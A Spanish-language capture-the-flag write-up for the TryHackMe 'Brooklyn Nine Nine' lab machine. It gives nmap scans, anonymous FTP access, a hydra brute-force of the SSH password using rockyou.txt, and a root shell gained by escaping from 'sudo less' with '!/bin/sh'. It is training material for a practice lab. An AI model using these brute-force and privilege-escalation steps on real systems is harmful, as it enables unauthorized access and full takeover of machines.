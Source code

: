 ```yaml
---
title: TryHackMe Brookling Nine Nine Writeup
published: true
---
```


La máquina Brookling99 es una máquina de TryHackMe en la que mediante la explotación de un servidor web conseguimos tanto la flag del usuario como la de root.

# [](#header-1)Enumeración

La enumeración se trata de una de las fases principales, en las que recolectamos la máxima información posible de la máquina víctima.

Usaremos nmap para analizar los puertos abiertos:

```bash
nmap -p- --open --min-rate 5000 -vvv -n $IP-VICTIMA -oG allPorts
```

*  Escaneo todos los puertos abiertos: -p- --open

*  Mediante --min-rate 5000 indicamos que queremos emitir paquetes no más lentos que 5000 paquetes por segundo.

*  Triple verbose (-vvv) para que vaya reportando por consola los puertos abiertos y no tener que esperar al final del escaneo.

*  Para que el escaneo no aplique resolución DNS usamos -n

*  En mi caso exporto los puertos abiertos en formato grepeable (-oG) al archivo allPorts

```bash
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.92 ( https://nmap.org ) at 2022-10-14 06:22 EDT
Initiating Connect Scan at 06:22
Scanning 10.10.209.206 [65535 ports]
Discovered open port 22/tcp on 10.10.209.206
Discovered open port 21/tcp on 10.10.209.206
Discovered open port 80/tcp on 10.10.209.206
Stats: 0:00:14 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 76.50% done; ETC: 06:23 (0:00:05 remaining)
Completed Connect Scan at 06:23, 19.84s elapsed (65535 total ports)
Nmap scan report for 10.10.209.206
Host is up, received user-set (0.058s latency).
Scanned at 2022-10-14 06:22:57 EDT for 19s
Not shown: 40658 closed tcp ports (conn-refused), 24874 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE REASON
21/tcp open  ftp     syn-ack
22/tcp open  ssh     syn-ack
80/tcp open  http    syn-ack

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 19.89 seconds
```

Nos reporta una serie de puertos abiertos. Debido a que el puerto 80 está abierto, introducimos la $IP-VICTIMA en un buscador y nos reporta una imagen con el título de la máquina junto a un pequeño texo. El texto no nos da información por lo que checkeamos la consola para tratar de conseguir algo más.

Conseguimos obtener un comentario en la consola que dice:

```html
Have you ever heard of steganography?
```
Lo tendremos en cuenta. A parte del puerto 80, están abiertos el 21 y 22. En el puerto 21 está corriedno un servicio ftp por lo que vamos a realizar un escaneo con nmap para obtener más información de estos:

```bash
❯ nmap -sCV -p21,22,80 10.10.209.206 -oN targeted
Starting Nmap 7.92 ( https://nmap.org ) at 2022-10-14 06:27 EDT
Nmap scan report for 10.10.209.206
Host is up (0.049s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.8.79.39
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0             119 May 17  2020 note_to_jake.txt
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 16:7f:2f:fe:0f:ba:98:77:7d:6d:3e:b6:25:72:c6:a3 (RSA)
|   256 2e:3b:61:59:4b:c4:29:b5:e8:58:39:6f:6f:e9:9b:ee (ECDSA)
|_  256 ab:16:2e:79:20:3c:9b:0a:01:9c:8c:44:26:01:58:04 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.23 seconds
[1]    4872 segmentation fault  nmap -sCV -p21,22,80 10.10.209.206 -oN targeted
```

Parece ser que nos podemos logear con el usuario Anonyous y sin contraseña. Además existe un archivo .txt

Nos conectamos entonces con ese usuario y sin contraseña:

```bash
❯ ftp 10.10.209.206
Connected to 10.10.209.206.
220 (vsFTPd 3.0.3)
Name (10.10.209.206:jorge): anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> 
```

Listamos el contendio y nos aparece el archivo .txt

Usando el comando get nos la podemos pasar a nuestro equipo. La abrimos y vemos su contenido:

```bash
ftp> ls
229 Entering Extended Passive Mode (|||30950|)
150 Here comes the directory listing.
-rw-r--r--    1 0        0             119 May 17  2020 note_to_jake.txt
226 Directory send OK.
ftp> get note_to_jake.txt
local: note_to_jake.txt remote: note_to_jake.txt
229 Entering Extended Passive Mode (|||13605|)
150 Opening BINARY mode data connection for note_to_jake.txt (119 bytes).
100% |********************************************************|   119       34.03 KiB/s    00:00 ETA
226 Transfer complete.
119 bytes received in 00:00 (2.18 KiB/s)
```

Lo abrimos en nuestro equipo:

```bash
❯ cat note_to_jake.txt
───────┬─────────────────────────────────────────────────────────────────────────────────────────────
       │ File: note_to_jake.txt
───────┼─────────────────────────────────────────────────────────────────────────────────────────────
   1   │ From Amy,
   2   │ 
   3   │ Jake please change your password. It is too weak and holt will be mad if someone hack into 
       │ the nine nine
   4   │ 
   5   │ 
───────┴─────────────────────────────────────────────────────────────────────────────────────────────
```

Nos dan la información que el usuario Jake tiene una contraseña débil, por lo que mediante hydra intentamos conseguirla:

```bash
❯ hydra -l jake -P /home/jorge/Descargas/rockyou.txt 10.10.209.206 -t 4 ssh
Hydra v9.3 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-10-14 06:53:57
[DATA] max 4 tasks per 1 server, overall 4 tasks, 14344401 login tries (l:1/p:14344401), ~3586101 tries per task
[DATA] attacking ssh://10.10.209.206:22/
[STATUS] 44.00 tries/min, 44 tries in 00:01h, 14344357 to do in 5433:29h, 4 active
[22][ssh] host: 10.10.209.206   login: jake   password: ?????????
```

# []($header-1)Acceso al sistema

La conseguimos e intentamos conectarnos mediante SSH con el usuario y la contraseña

```bash
❯ ssh jake@10.10.209.206
The authenticity of host '10.10.209.206 (10.10.209.206)' can't be established.
ED25519 key fingerprint is SHA256:ceqkN71gGrXeq+J5/dquPWgcPWwTmP2mBdFS2ODPZZU.
This host key is known by the following other names/addresses:
    ~/.ssh/known_hosts:4: [hashed name]
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.209.206' (ED25519) to the list of known hosts.
jake@10.10.209.206's password: 
Last login: Tue May 26 08:56:58 2020
jake@brookly_nine_nine:~$ 
```

Estamos dentro! Investigamos un poco por los usuarios y conseguimos la flag del usuario:

```bash
jake@brookly_nine_nine:~$ cd /home
jake@brookly_nine_nine:/home$ cd holt/
jake@brookly_nine_nine:/home/holt$ ls
nano.save  user.txt
jake@brookly_nine_nine:/home/holt$ cat user.txt
???????????????????????????????
jake@brookly_nine_nine:/home/holt$ 
```

En este punto podemos usar sudo -l para ver los permisos que tenemos a la hora de ejecutar comandos:

```bash
jake@brookly_nine_nine:~$ sudo -l
Matching Defaults entries for jake on brookly_nine_nine:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jake may run the following commands on brookly_nine_nine:
    (ALL) NOPASSWD: /usr/bin/less
```

# []($header-1)Escalada de privilegios

Podemos usar el comando less como root: Nos dirigimos a <a href="gtfobins.github.io">GTFOBins</a> y buscamos el binario less y lo que podemos hacer siendo sudo.

Nos reporta esta información:

> sudo less /etc/profile
>
> !/bin/sh

Ejecutamos entonces el comando (sudo less /etc/profile) e introducimos !/bin/sh

Hemos conseguido el acceso total al sistema y si hacemos whoami nos reporta que somos root, parece ser que no nos ha hecho falta usar esteganografía.

Investigamos por el directorio de root y conseguimos la flag del mismo:

```bash
# whoami
root
# ls
# cd /root
# ls
root.txt
# cat root.txt
-- Creator : Fsociety2006 --
Congratulations in rooting Brooklyn Nine Nine
Here is the flag: ??????????????????????????????

Enjoy!!
```
Conseguimos la flag de root!

Muchas gracias por leer este writeup, espero que te haya gustado!
